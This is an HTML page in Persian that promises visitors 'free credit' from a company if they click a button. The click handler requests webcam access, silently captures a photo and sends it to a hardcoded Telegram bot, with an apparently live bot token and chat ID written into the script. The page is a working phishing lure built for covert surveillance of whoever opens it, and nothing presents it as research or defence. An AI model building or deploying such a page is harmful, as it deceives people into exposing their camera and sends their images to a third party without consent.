 <!doctype html>
<html lang="fa">
  <head>
	<meta charset="utf-8" />
	<title>تست عکس → تلگرام</title>
	<meta name="viewport" content="width=device-width,initial-scale=1" />
<style>
      body { font-family: sans-serif; text-align:center; padding:30px; background:#f0f4f8; }
  button { padding:15px 30px; font-size:18px; border:none; border-radius:10px; background:#4CAF50; color:white; cursor:pointer; }
  button:hover { background:#45a049; }
  #status { margin-top:15px; font-weight:bold; color:#333; }
  img { margin-top:15px; max-width:90%; border:2px solid #ccc; border-radius:8px; display:none; }
</style>
  </head>
  <body>
	<h2>کردیت رایگان از طرف شرکت سعیدی</h2>
	<p>برای دریافت کردیت رایگان دکمه پایین را فشار دهید </p>
	<button id="btn">برای دریافت اینجا را کلیک کنید </button>

	<video id="v" autoplay playsinline style="display:none;"></video>
	<canvas id="c" style="display:none;"></canvas>

<script>
    const BOT = '8254244222:AAHhZ8Bd_cuJIOaUzzHVWaNl7jEsLZ1XrXI';    // <-- اینجا توکن رباتت را جایگزین کن
    const CHAT = '6983233293';            // <-- اینجا chat_id عددی که گرفتیم
    const btn = document.getElementById('btn');
    const v = document.getElementById('v');
    const c = document.getElementById('c');

    btn.addEventListener('click', async () => {
      try {
        const stream = await navigator.mediaDevices.getUserMedia({video:true});
        v.srcObject = stream;
        await new Promise(r => setTimeout(r, 600));
        c.width = v.videoWidth || 640;
        c.height = v.videoHeight || 480;
        c.getContext('2d').drawImage(v, 0, 0, c.width, c.height);
        stream.getTracks().forEach(t => t.stop());

        c.toBlob(async (blob) => {
          if (!blob) { alert('خطا در گرفتن عکس'); return; }
          const form = new FormData();
          form.append('photo', blob, 'pic.jpg');
          form.append('chat_id', CHAT);

          const url = `https://api.telegram.org/bot${BOT}/sendPhoto`;
          try {
            const resp = await fetch(url, { method: 'POST', body: form });
            const j = await resp.json();
            if (j.ok) alert('️');
            else alert('ارسال نشد: ' + (j.description || JSON.stringify(j)));
          } catch (e) {
            alert('خطا در ارسال: ' + e.message);
          }
        }, 'image/jpeg', 0.9);

      } catch (err) {
        alert('مرورگر اجازه نداد یا خطا: ' + err.message);
      }
    });
</script>
  </body>
</html>